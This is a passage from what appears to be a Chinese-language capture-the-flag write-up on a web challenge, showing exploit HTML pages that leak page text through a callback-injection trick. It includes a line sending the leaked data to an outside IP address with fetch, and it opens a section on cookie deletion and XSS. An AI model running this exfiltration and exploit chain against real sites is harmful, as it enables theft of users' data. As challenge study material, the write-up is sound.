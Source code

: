 ```html
                console.log(res);
                fetch("http://8.142.104.78:9002/ret/" + res)
            }, 500);
        }

        main();
    </script>
</body>
```

`one.html` :
```html
<script>
    attack = open(`/attack.html`);
</script>
```

`attack.html` :
```html
<script>
    const sleep = d => new Promise(r => setTimeout(r, d));
    const main = async () => {
        await sleep(1000);
        const start = 0;
        for (var i = start; i <= start+36+1; i++) {
            // I'm explainig this payload below
            PAYLOAD = `opener[opener.opener.document.body.firstElementChild.nextElementSibling.firstElementChild.firstElementChild.firstElementChild.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.firstElementChild.firstElementChild.text[${i}]].focus`;
            // change one.html page's location to the vulnerable page that executes callback
            opener.location.replace(`http://localhost:12345/post/?id=fake?callback=${PAYLOAD}%23%00`);
            // check the next character every 1.5 secs so that the page have 1.5 sec to load.
            await sleep(1500);
        }
    }

    main();
</script>
```

open顺序：
start -> iframes -> one -> attack

## Delete Cookie And XSS

第二种方法算是学到了。

在 todo 中有一个 url 处理：
```js
let isURL = false;
try {
	new URL(text); // errors if not valid URL
	isURL = !text.toLowerCase().trim().startsWith("javascript:"); // no
} catch {}
```
